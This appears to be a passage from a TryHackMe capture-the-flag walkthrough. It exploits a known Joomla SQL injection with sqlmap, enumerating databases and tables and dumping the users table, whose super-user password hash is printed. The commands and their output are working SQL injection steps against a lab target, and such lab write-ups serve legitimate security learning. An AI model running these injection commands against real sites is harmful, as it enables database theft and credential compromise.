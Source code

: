 ### Exploiting the Joomla

Using the known SQL injection vulnerability and the [exploit](https://www.exploit-db.com/exploits/42033), lets exploit the Joomla.

```bash
  $ sqlmap -u "http://10.10.89.194/administrator/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

    [22:17:15] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [22:17:15] [INFO] fetching database names
    [22:17:15] [INFO] resumed: 'information_schema'
    [22:17:15] [INFO] resumed: 'joomla'
    [22:17:15] [INFO] resumed: 'mysql'
    [22:17:15] [INFO] resumed: 'performance_schema'
    [22:17:15] [INFO] resumed: 'test'
    available databases [5]:
    [*] information_schema
    [*] joomla
    [*] mysql
    [*] performance_schema
    [*] test

```

The result shows there are five databases and let's try the database "***joomla***". So lets see what tables are there in this database:

```bash
  $ sqlmap -u "http://10.10.249.249/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

The above returned a total of 72 tables and there is one interesting table ***'#__users***'; sounds like users details.

```bash
  $ sqlmap -u "http://10.10.249.249/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump
    Database: joomla
    Table: #__users
    [1 entry]
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+
    | id   | email               | name       | params  | username | password                                                     |
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+
    | 811  | jonah@tryhackme.com | Super User | <blank> | jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+
```
